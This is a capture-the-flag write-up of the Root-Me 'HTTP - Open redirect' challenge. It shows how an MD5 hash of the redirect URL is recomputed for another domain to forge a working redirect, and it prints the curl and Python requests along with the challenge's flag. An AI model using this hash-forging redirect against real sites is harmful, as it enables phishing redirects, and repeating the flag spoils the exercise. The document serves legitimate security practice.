 ```yaml
---
title: HTTP - Open redirect
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation]
---
```


* Points: 10
* Link: [https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect](https://www.root-me.org/en/Challenges/Web-Server/HTTP-Open-redirect)

## Statement

> Find a way to make a redirection to a domain other than those showed on the web page.
>
> [http://challenge01.root-me.org/web-serveur/ch52/](http://challenge01.root-me.org/web-serveur/ch52/)

## Solution

Let's visit the site

```sh
curl http://challenge01.root-me.org/web-serveur/ch52/
```
```html
<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <h1>Social Networks</h1>
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
<style type="text/css">
        body{
                text-align: center;
                font-family: arial;
        }

        a{
                color: #FFFFFF;
                text-decoration: none;
                text-transform: capitalize;
                padding: 8px;
                background-color: #1CB2D2;
                border-radius: 5px;
                width: 100px;
                display: inline-block;
        }
        a:hover{
                background-color: #3968A9;
        }

        #error{
                color: red;
                font-weight: bold;
        }

</style>
</body>
</html>
```

Check these lines
```html
<a href='?url=https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134'>facebook</a>
<a href='?url=https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0'>twitter</a>
<a href='?url=https://slack.com&h=e52dc719664ead63be3d5066c135b6da'>slack</a>
```

Sounds like we have a **hash** here. Let's check with [hash-identifier](https://www.kali.org/tools/hash-identifier/)
```console
┌──(user㉿kali)-[~]
└─$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a023cfbf5f1c39bdf8407f28b60cd134

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Well well we got a MD5 hash, use [MD5 decoder tool](https://md5hashing.net/hash/md5), we have ```a023cfbf5f1c39bdf8407f28b60cd134``` is a hash of ```https://facebook.com```.

So let's try any domain, for example, ```https://mydomain.com``` with hash is ```9af3e23ea90265a580cb11bfce830f97```:
```sh
curl http://challenge01.root-me.org/web-serveur/ch52/?url=https://mydomain.com&h=9af3e23ea90265a580cb11bfce830f97
```
But I got ```403 error```, so I try again with python
```python
import requests
flag = requests.get("http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f")
print(flag.text)
```

and...
```html
<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
</p><script>document.location = 'https://google.com';</script>
<style type="text/css">
        body{
                text-align: center;
                font-family: arial;
        }

        a{
                color: #FFFFFF;
                text-decoration: none;
                text-transform: capitalize;
                padding: 8px;
                background-color: #1CB2D2;
                border-radius: 5px;
                width: 100px;
                display: inline-block;
        }
        a:hover{
                background-color: #3968A9;
        }

        #error{
                color: red;
                font-weight: bold;
        }

</style>
</body>
</html>
```

Here we go
```html
<p>Well done, the flag is e6f8a530811d5a479812d7b82fc1a5c5
```
The flag is
```
e6f8a530811d5a479812d7b82fc1a5c5
```
